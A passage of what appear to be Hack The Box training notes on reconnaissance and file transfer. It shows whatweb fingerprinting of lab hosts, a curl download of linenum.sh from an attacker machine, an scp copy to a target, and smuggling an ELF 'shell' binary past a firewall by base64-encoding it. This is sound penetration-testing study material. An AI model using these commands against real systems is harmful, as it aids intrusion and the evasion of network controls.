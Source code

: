 ```sh
Content-Type: text/html; charset=UTF-8

woadey@htb[/htb]$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```
- Another handy tool is [`EyeWitness`](https://github.com/FortyNorthSecurity/EyeWitness), which can be used to take screenshots of target web applications, fingerprint them, and identify possible default credentials.
- We can extract the version of web servers, supporting frameworks, and applications using the command-line tool `whatweb`.
```sh
woadey@htb[/htb]$ whatweb 10.10.10.121

http://10.10.10.121 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[license@php.net], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.121], Title[PHP 7.4.3 - phpinfo()]

woadey@htb[/htb]$ whatweb --no-errors 10.10.10.0/24

http://10.10.10.11 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx/1.14.1], IP[10.10.10.11], PoweredBy[Red,nginx], Title[Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux], nginx[1.14.1]
http://10.10.10.100 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.100], Title[File Sharing Service]
http://10.10.10.121 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[license@php.net], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.121], Title[PHP 7.4.3 - phpinfo()]
http://10.10.10.247 [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[contact@cross-fit.htb], Frame, HTML5, HTTPServer[OpenBSD httpd], IP[10.10.10.247], JQuery[3.3.1], PHP[7.4.12], Script, Title[Fine Wines], X-Powered-By[PHP/7.4.12], X-UA-Compatible[ie=edge]
```
- One method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host.

```sh
woadey@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```
- In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to `base64` encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it.

```sh
woadey@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

```sh
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```
